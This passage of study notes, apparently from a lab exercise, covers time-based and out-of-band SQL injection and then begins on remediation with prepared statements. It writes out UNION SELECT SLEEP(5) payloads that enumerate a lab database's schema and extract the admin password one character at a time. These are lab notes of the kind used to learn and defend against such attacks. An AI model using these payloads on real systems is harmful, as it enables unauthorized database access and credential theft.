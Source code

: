 If there was no pause in the response time, we know that the query was unsuccessful, so like on previous tasks, we add another column:

`admin123' UNION SELECT SLEEP(5),2;--`
![[Pasted image 20240611024315.png]]

This payload should have produced a 5-second delay, confirming the successful execution of the UNION statement and that there are two columns. 

You can now repeat the enumeration process from the Boolean-based SQL injection, adding the SLEEP() method to the **UNION SELECT** statement.

`referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 's%';--` (discovering database/table schema)

`referrer=admin123' UNION SELECT SLEEP(5),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' and table_name like 'u%';--`
(discovering table name)

`referrer=admin123' UNION SELECT SLEEP(5),2 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='users' and COLUMN_NAME like 'u%';`(discovering column name 'users')

`referrer=admin123' UNION SELECT SLEEP(5),2 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='users' and COLUMN_NAME like 'p%';`(discovering column name 'passwords')

`referrer=admin123' UNION SELECT SLEEP(5),2 FROM users WHERE username='admin' AND password like 'a%' 
(discovering actual password in relationship with username 'admin')

## Out-of-Band SQLi
Out-of-band SQL Injection isn't as common as it either depends on specific features being enabled on the database server or the web application's business logic, which makes some kind of external network call based on the results from an SQL query.  
  
An Out-Of-Band attack is classified by having two different communication channels, one to launch the attack and the other to gather the results. For example, the attack channel could be a web request, and the data gathering channel could be monitoring HTTP/DNS requests made to a service you control.
1) An attacker makes a request to a website vulnerable to SQL Injection with an injection payload.
2) The Website makes an SQL query to the database, which also passes the hacker's payload.
3) The payload contains a request which forces an HTTP request back to the hacker's machine containing data from the database.

			![[Pasted image 20240611030152.png]]


## Remediation
As impactful as SQL Injection vulnerabilities are, developers do have a way to protect their web applications from them by following the advice below:

- **Prepared Statements (With Parameterized Queries):**
	In a prepared query, the first thing a developer writes is the SQL query, and then any user inputs are added as parameters afterwards. Writing prepared statements ensures the SQL code structure doesn't change and the database can distinguish between the query and the data. As a benefit, it also makes your code look much cleaner and easier to read.
	
